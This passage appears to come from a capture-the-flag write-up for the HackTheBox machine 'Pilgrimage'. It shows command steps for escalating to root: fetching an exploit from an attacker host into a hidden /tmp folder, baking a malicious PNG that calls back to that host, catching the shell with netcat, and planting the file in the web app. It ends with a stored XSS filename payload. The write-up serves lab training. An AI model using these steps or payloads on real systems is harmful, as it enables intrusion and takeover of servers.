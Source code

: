 You can choose any image at your taste. I'm gonna use the [Dark Side Of The Moon](https://www.youtube.com/watch?v=k9ynZnEBtvw) cover (my little tribute to one of the best albums I've ever heard).

```shell
curl https://upload.wikimedia.org/wikipedia/pt/3/3b/Dark_Side_of_the_Moon.png > image.png
```

We can transfer both files to the server in many ways. I'm gonna host a simple web server and get the files through curl, but you can also use the `scp` command. 

```shell
php -S 0.0.0.0:8000
```

On the **server**, let's create a folder a retrieve all these files to it.

```shell
mkdir /tmp/.secret && cd /tmp/.secret
curl http://10.10.14.207:8000/exploit.py > exploit.py
curl http://10.10.14.207:8000/image.png > image.png
```

You can close the PHP server with `Control + C`.

Let's bake the malicious image:

```shell
python3 exploit.py image.png 10.10.14.207 8000
```

Wait for a connection (on your machine):

```shell
nc -lvp 8000
```

Finally, move the infected file to the `shrunk` folder:

```shell
cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
```

And now we're root!

```shell
whoami
# root
```

## Another Vulnerabilities

#### XSS

When uploading a file, you can set the filename to a `<img>` tag with a `onerror` attribute., like this: 

```html
<img src=imaginarysource onerror=\"alert('XSS');\">
```

The server doesn't sanitize it and stores this filename attribute in the database. When the user access the [dashboard](http://pilgrimage.htb/dashboard.php), the name is interpreted as real HTML, resulting in a stored XSS.
